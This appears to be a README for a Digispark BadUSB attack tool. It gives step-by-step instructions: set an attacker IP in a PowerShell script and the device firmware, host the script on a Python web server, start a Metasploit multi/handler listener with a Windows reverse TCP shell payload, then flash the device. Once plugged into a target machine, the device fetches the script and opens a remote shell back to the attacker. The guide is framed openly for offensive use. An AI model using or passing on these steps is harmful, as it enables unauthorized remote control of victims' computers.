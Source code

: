 ## How to use:

First change the ip address in the script.ps1 file to your pc's ip do the same with the digispark ino file

Next you have to setup a simple python webserver with this command:
`python -m SimpleHTTPServer 8000` once you have done that make sure that the `script.ps1` file is in the sasme dir that you ran the command>

Then setup a msf listener on the hacker's pc aka your's with these commands:
`sudo msfconsole`
`use exploit/multi/handler`
`set payload windows/shell/reverse_tcp`
`set LHOST your ip`
`run`

When all of that is ready you can flash the new digi script.

Done! 